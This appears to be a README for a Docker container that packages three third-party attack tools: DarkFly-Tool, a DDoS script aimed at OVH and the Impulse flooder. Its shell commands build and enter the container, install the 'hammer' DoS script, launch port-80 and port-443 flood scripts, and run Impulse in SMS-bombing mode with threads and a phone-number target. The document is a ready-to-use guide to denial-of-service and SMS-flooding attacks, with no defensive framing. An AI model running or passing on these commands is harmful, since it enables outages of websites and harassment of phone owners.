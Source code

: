 # Intro

toolbox container includes:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git

# Use

(Optional) Build container:

```shell
docker build -t droopy4096/uait-tools -f containers/Dockerfile.toolkit .
```

Login into container shell:

```shell
docker run --rm -it droopy4096/uait-tools
root@bda7c51682fb:/opt# 
```

from here several tools are at your disposal:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

just launch DarkFly console:

```shell
DarkFly
```

follow `1` then `16` to install `hammer` into `/root/hammer.py` 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```